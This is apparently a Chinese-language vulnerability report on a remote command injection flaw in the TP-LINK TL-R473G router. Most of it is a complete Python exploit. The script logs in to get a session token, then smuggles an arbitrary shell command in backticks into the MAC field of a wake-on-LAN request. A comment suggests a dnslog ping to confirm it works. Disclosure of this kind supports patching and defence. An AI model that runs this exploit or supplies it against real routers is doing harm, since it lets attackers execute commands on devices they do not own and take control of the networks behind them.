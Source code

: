 # TP-LINK TL-R473G 存在命令注入漏洞

**CVE ID**:  

**CNVD ID**: 

**漏洞厂商**:  TP-LINK

**厂商官网**: https://www.tp-link.com.cn/、https://www.tp-link.com/

**影响产品**: TL-R473G

**影响产品版本**: 2.0.1 Build 220529 Rel.65574n(最新版)

**固件链接**: 非最新版固件 https://smb.tp-link.com.cn/service/detail_download_8644.html

**报送者**: [SkYe231](mailto:skye231@foxmail.com)@Hillstone

## 漏洞描述

TP-LINK TL-R473G存在远程命令执行漏洞，攻击者可以通过精心构造的数据包绕过限制，实现远程命令执行。

## 漏洞详情

没有有效的MAC地址过滤，仅将`-`替换为`:`。

![image-20220621165232656](./img/image-20220621165232656.png)

## EXP

```python
# encoding:utf-8
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
import json,sys

TIMEOUT_MAX = 60
HOST = sys.argv[1]
USERNAME = sys.argv[2]
PASSWORD = sys.argv[3]
COMMAND = sys.argv[4]#"ping a5urz4.dnslog.cn"

requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

def get_stok(host,username,password):
    headers = {
        "Content-Type":"application/json; charset=UTF-8"
    }
    data = {"method":"do","login":{"username":username,"password":password}}
    url = host
    response = requests.post(url=url,headers=headers,data=json.dumps(data),verify=False,timeout=TIMEOUT_MAX)
    stok = json.loads(response.text)["stok"]
    print("[+]Get stok:",stok)
    return stok

def rce(host,stok):
    url = host+"/stok="+stok+"/ds"
    headers = {
        "Content-Type":"application/json; charset=UTF-8"
    }
    data = {"method":"do","wol":{"wol_wake":{"mac":"DC-DC-DC-DC-`{}`-DC".format(COMMAND),"usrif":"LAN"}}}
    response = requests.post(url=url,headers=headers,data=json.dumps(data))
    if json.loads(response.text)["error_code"] == 0 :
        print("[+]Success")
    else:
        print("[-]Error")

def exp(host,username,password):
    host = host.strip()
    if host[:4] != "http":
        host = "http://" + host
    stok = get_stok(host,username,password)
    if stok != -1:
        rce(host,stok)

if __name__ == "__main__":
    exp(HOST,USERNAME,PASSWORD)
```

